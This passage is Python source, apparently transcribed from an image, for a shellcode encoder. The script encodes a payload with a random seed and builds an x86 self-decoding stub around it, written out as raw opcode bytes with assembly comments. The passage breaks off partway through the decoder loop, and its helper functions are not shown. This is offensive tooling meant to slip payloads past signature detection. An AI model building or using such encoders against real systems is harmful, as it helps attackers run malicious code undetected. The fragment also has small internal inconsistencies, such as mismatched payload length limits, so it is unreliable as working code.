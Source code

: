 ```python


def set_ecx(rounds_needed):
        return b"\xb1" + rounds_needed.to_bytes(1, byteorder='little')


def main():
    usage = """
    Usage: %s [-e] <shellcode_to_encode>
    -e
        If the -e flag is used, only encode the shellcode, do not insert it into a decoder stub.
    """
    if len(argv) < 2:
        print(usage)
        raise SystemExit
    elif len(argv) > 2 and argv[1] != '-e':
        print(usage)
        raise SystemExit
    elif len(argv) == 2 and argv[1] == '-e':
        print(usage)
        raise SystemExit

    if argv[1] == '-e':
        """If called with -e flag encode and return seed, various lengths
        the initial seed, and the encoded bytes in various formats."""
        shellcode = process_shellcode(argv[2])
        seed = generate_seed()
        hex_escaped_encoded, nasm_escaped_encoded = encode_to_strings(seed, shellcode)

        print('Real shellcode length in bytes: %d' % len(shellcode))
        print('Number of rounds to decode: %d' % ((len(shellcode) // 4) + 1))
        print('Starting seed: %s' % hex(seed))
        print('\nEncoded data hex escaped:')
        print(str(hex_escaped_encoded, 'utf-8'))
        print('\nEncoded data in 0x (nasm) format:')
        print(str(nasm_escaped_encoded, 'utf-8')[:-1])
    else:
        """If not called with -e encode shellcode, build a decoder, and return
        complete shellcode with completed decoder stub."""
        shellcode = process_shellcode(argv[1])
        if len(shellcode) > 1023:
            print('ERROR: Payload cannot be longer than 1024 bytes!')

        while True:
            seed = generate_seed()
            decoder = (
                       bytearray("\xeb\x23"         # <_start>: jmp <call_decoder>
                                 "\x31\xc9"         # <setup>: xor ecx, ecx
                                 "\x5e"             # pop esi
                                 "\x89\xf7",
                                 'iso-8859-1')        # mov edi, esi

                       + b"\xb8"                    # mov eax, <seed>
                       + seed.to_bytes(4, byteorder='little',
                                       signed=False)

                       + bytearray(set_ecx(((len(shellcode) // 4) + 1)))

                       + bytearray("\xf7\xe0"       # <decode_loop>: mul eax
                                   "\x66\x89\xd0"   # mov ax, dx
                                   "\xc1\xc8\x10"   # ror eax, 0x10
                                   "\x89\xc3"       # mov ebx, eax
                                   "\x0f\xcb"       # bswap ebx
```